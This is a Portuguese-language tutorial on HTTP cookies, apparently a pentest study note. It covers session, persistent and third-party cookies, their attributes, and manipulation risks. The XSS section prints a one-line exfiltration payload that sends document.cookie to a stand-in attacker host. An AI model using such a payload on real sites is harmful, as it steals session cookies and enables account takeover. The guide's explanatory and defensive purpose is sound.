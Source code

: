 ## O que são Cookies?

Cookies são **pequenos arquivos de texto** que os sites armazenam no navegador do usuário para **guardar informações** entre requisições HTTP. Eles são fundamentais para **manter sessões, lembrar preferências ou rastrear comportamento**.

---

## Tipos de Cookies

### 1. **Cookie de Sessão**

- Criado temporariamente quando o usuário acessa um site.
    
- É **apagado automaticamente** quando o navegador é fechado.
    
- Usado para manter a **sessão de login** ou **estado de navegação**.
    
- Exemplo: Você faz login e navega em várias páginas sem precisar se autenticar de novo.
    

### 2. **Cookie Persistente**

- Fica armazenado mesmo **após fechar o navegador**.
    
- Tem uma data de expiração definida.
    
- Usado para lembrar o login, preferências ou manter o usuário conectado.
    
- Exemplo: “Lembrar-me” em sites de login como Gmail ou Facebook.
    

### 3. **Cookie de Terceiros**

- Criado por **domínios diferentes** do site que você está acessando.
    
- Muito usado em **rastreamento de anúncios** (ex: Google Ads, Facebook Pixel).
    
- Pode gerar riscos à privacidade.
    
- Exemplo: Você acessa um site de notícias e carrega um cookie da DoubleClick (Google).
    

---

## Como os Cookies são Criados?

Eles podem ser criados via **JavaScript** ou enviados pelo **servidor no cabeçalho HTTP**:

### Exemplo via JavaScript:

```javascript
document.cookie = "token=abc123; path=/; expires=Fri, 31 Dec 2025 23:59:59 GMT";
```

### Exemplo via cabeçalho HTTP:

```
Set-Cookie: token=abc123; Path=/; Expires=Fri, 31 Dec 2025 23:59:59 GMT; HttpOnly; Secure
```

---

## Atributos de um Cookie

|Atributo|Descrição|
|---|---|
|**Name**|Nome do cookie (ex: session_id)|
|**Value**|Valor do cookie (ex: abc123token)|
|**Path**|Caminho do site onde o cookie será enviado (ex: `/`, `/admin`)|
|**Domain**|Domínio que pode receber o cookie (ex: `.meusite.com`)|
|**Expires**|Quando o cookie irá expirar (ex: `Tue, 19 Jan 2038 03:14:07 GMT`)|
|**HttpOnly**|Impede o acesso ao cookie por JavaScript (mitiga ataques XSS)|
|**Secure**|Só é enviado em conexões HTTPS|
|**SameSite**|Restringe envio do cookie entre domínios (evita CSRF). Valores: `Strict`, `Lax`, `None`|

---

## Exemplo real de cookie:

```
Set-Cookie: session_id=abc123; Path=/; Domain=meusite.com; Expires=Wed, 21 Oct 2025 07:28:00 GMT; HttpOnly; Secure; SameSite=Lax
```

---

## É possível manipular cookies?

Sim, em muitos cenários, **o atacante pode tentar manipular cookies** se não houver segurança adequada. Exemplos práticos:

### 1. **Session Fixation**

- O atacante força um cookie de sessão válido no navegador da vítima.
    

### 2. **Cookie Tampering**

- Cookies sem assinatura ou criptografia podem ser **editados manualmente**.
    
- Exemplo: Um cookie `role=admin` pode ser alterado por um atacante via DevTools.
    

### 3. **XSS + roubo de cookies**

- Se o cookie **não estiver marcado como `HttpOnly`**, ele pode ser acessado via JavaScript malicioso.
    

```javascript
// Em um XSS
document.location = "https://malicious.com?cookie=" + document.cookie;
```

---

## Como monitorar e visualizar cookies?

- No navegador (F12 > Application > Cookies).
    
- Com ferramentas como:
    
    - **Burp Suite**
        
    - **OWASP ZAP**
        
    - **Postman**
        
    - **Curl (via header Set-Cookie)**
        

---

## Considerações para Pentest

Ao realizar testes em aplicações web, analise:

1. **Cookies sem HttpOnly** – são vulneráveis a roubo via XSS.
    
2. **SameSite=None sem Secure** – pode permitir CSRF.
    
3. **Tokens de sessão previsíveis ou não expirados** – podem ser explorados.
    
4. **Cookies sensíveis não criptografados** – podem ser manipulados.
    
5. **Cookies de terceiros indevidos** – violam privacidade e ajudam em fingerprinting.